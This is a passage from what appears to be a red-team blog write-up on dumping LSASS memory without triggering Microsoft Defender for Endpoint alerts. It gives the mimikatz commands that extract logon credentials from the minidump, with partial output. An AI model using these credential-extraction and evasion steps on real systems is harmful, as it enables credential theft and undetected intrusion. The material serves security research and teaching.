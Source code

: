 
![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180648.png)

Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)

<a name="credential-extraction-from-dump-file"></a>
### Credential Extraction from dump file

Extract credentials form the .dmp file with `mimikatz` (I did this by copying the `minidump` file to my machine) as follows:

```
PS D:\> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump mini.dmp
Switch to MINIDUMP : 'mini.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'mini.dmp' file for minidump...

Authentication Id : 0 ; 59179014 (00000000:03870006)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 23-08-2023 14:19:50
SID               : S-1-5-90-0-2
```